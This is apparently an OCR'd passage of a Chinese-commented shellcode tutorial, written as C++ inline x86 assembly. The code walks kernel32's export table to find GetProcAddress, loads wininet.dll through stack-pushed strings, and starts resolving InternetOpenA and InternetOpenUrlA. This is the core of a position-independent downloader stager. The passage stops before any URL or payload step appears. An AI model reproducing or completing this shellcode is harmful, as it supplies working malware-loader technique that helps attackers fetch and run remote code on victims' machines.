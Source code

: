 ```c++
        Get_Function:
        inc ecx
        lodsd
        add eax,ebx
        cmp dword ptr [eax], 0x50746547
        jnz Get_Function
        cmp dword ptr [eax+4], 0x41636f72
        jnz Get_Function

        mov esi, [edx+0x24]
        add esi, ebx
        mov cx, [esi + ecx * 2]
        dec ecx
        mov esi, [edx+0x1c]
        add esi, ebx
        mov edx, [esi + ecx * 4]
        add edx, ebx

        //到这里就是获取GetProcAddress函数地址

        xor ecx, ecx
        push ebx            //ebx是kernel32.dll的基址，push到栈里面后面可以用
        push edx            //edx是GetProcAddress函数地址
        push ecx            //这里就相当于push 0,但是这样写硬编码会少很多，push 0 是为了截取字符串，一个指针里面的值是否到头就是用\x00判断的
        push 0x41797261     //aryA
        push 0x7262694c     //Libr
        push 0x64616f4c     //Load，这三个是push字符串，LoadLibraryA，根据栈的规则需要这样写，为了方便还写了一i个小脚本，后面贴出来
        push esp            //push字符串函数指针
        push ebx            //push kernel32.dll基址
        call edx            //调用GetProcAddress函数

        mov esi, eax
        add esp, 0xc
        push 0x6c6c64
        push 0x2e74656e
        push 0x696e6977     
        push esp
        call esi

//这一段是获取wininet.dll的基址，后面的函数都是在这个dll里面

        add esp, 0xc                    //降低栈顶
        mov edx, dword ptr[esp+4]       //获取wininet.dll函数地址
        push 0x00000041
        push 0x6e65704f
        push 0x74656e72
        push 0x65746e49                 //push 字符串InternetOpenA
        mov  edi, eax                   //eax是wininet.dll的基址
        push esp                        //InternetOpenA
        push eax                        //wininet.dll基址
        call edx                        //调用GetProcAddress获取InternetOpenA地址
        add esp, 0x14           //清除堆栈
        push eax                //保存InternetOpen函数地址

//后面的几个函数基本都是一个思路

        xor edx, edx
        push edx
        mov [esp], 0x20000000
        mov edx, dword ptr[esp + 8]
        push 0x416c7255
        push 0x6e65704f
        push 0x74656e72
```